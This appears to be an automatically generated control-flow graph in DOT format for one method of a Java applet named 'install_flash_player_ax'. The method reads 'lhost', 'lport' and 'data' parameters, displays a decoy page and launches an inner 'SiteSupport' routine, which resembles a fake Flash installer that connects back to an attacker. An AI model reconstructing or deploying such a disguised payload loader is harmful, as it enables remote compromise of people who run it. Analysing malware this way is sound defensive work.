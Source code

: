 digraph "" {
    "r0 := @this: install_flash_player_ax"
    "load.r r0"
    "r0 := @this: install_flash_player_ax"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>";
    "store.r r30"
    "virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>"->"store.r r30";
    "store.r r30"->"load.r r0";
    "push \"lhost\""
    "load.r r0"->"push \"lhost\"";
    "push \"lhost\""->"virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "push \"lport\""
    "load.r r0"->"push \"lport\"";
    "push \"lport\""->"virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "load.r r30"
    "store.r r2"->"load.r r30";
    "ifnonnull new install_flash_player_ax$SiteSupport"
    "load.r r30"->"ifnonnull new install_flash_player_ax$SiteSupport";
    "push \"\""
    "ifnonnull new install_flash_player_ax$SiteSupport"->"push \"\"";
    "push \"\""->"store.r r30";
    "new install_flash_player_ax$SiteSupport"
    "store.r r30"->"new install_flash_player_ax$SiteSupport";
    "store.r $r4"
    "new install_flash_player_ax$SiteSupport"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "load.r $r4"->"load.r r0";
    "specialinvoke <install_flash_player_ax$SiteSupport: void <init>(install_flash_player_ax)>"
    "load.r r0"->"specialinvoke <install_flash_player_ax$SiteSupport: void <init>(install_flash_player_ax)>";
    "specialinvoke <install_flash_player_ax$SiteSupport: void <init>(install_flash_player_ax)>"->"load.r $r4";
    "load.r $r4"->"load.r r30";
    "fieldput <install_flash_player_ax$SiteSupport: java.lang.String data>"
    "load.r r30"->"fieldput <install_flash_player_ax$SiteSupport: java.lang.String data>";
    "load.r r1"
    "fieldput <install_flash_player_ax$SiteSupport: java.lang.String data>"->"load.r r1";
    "ifnull load.r r0"
    "load.r r1"->"ifnull load.r r0";
    "load.r r2"
    "ifnull load.r r0"->"load.r r2";
    "load.r r2"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r $r4";
    "load.r $r4"->"load.r r1";
    "fieldput <install_flash_player_ax$SiteSupport: java.lang.String lhost>"
    "load.r r1"->"fieldput <install_flash_player_ax$SiteSupport: java.lang.String lhost>";
    "fieldput <install_flash_player_ax$SiteSupport: java.lang.String lhost>"->"load.r $r4";
    "load.r $r4"->"load.r r2";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r2"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "fieldput <install_flash_player_ax$SiteSupport: int lport>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"fieldput <install_flash_player_ax$SiteSupport: int lport>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "fieldput <install_flash_player_ax$SiteSupport: int lport>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuffer"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"lhost: \""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"lhost: \"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"lhost: \""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"lport: \""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"lport: \"";
    "push \"lport: \""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "push \"nextPage\""
    "load.r r0"->"push \"nextPage\"";
    "push \"nextPage\""->"virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <install_flash_player_ax: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r1";
    "ifnull load.r $r4"
    "load.r r1"->"ifnull load.r $r4";
    "ifnull load.r $r4"->"load.r r1";
    "checkcast"
    "load.r r1"->"checkcast";
    "checkcast"->"checkcast";
    "virtualinvoke <java.lang.String: int length()>"
    "checkcast"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.r $r4"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r $r4";
    "new java.net.URL"
    "ifle load.r $r4"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "load.r r1"->"checkcast";
    "checkcast"->"checkcast";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <install_flash_player_ax: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <install_flash_player_ax: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <install_flash_player_ax: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"load.r $r4";
    "virtualinvoke <install_flash_player_ax$SiteSupport: java.lang.Object run()>"
    "load.r $r4"->"virtualinvoke <install_flash_player_ax$SiteSupport: java.lang.Object run()>";
    "pop"
    "virtualinvoke <install_flash_player_ax$SiteSupport: java.lang.Object run()>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <install_flash_player_ax$SiteSupport: java.lang.Object run()>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"Applet error: \""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"Applet error: \"";
    "push \"Applet error: \""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
}
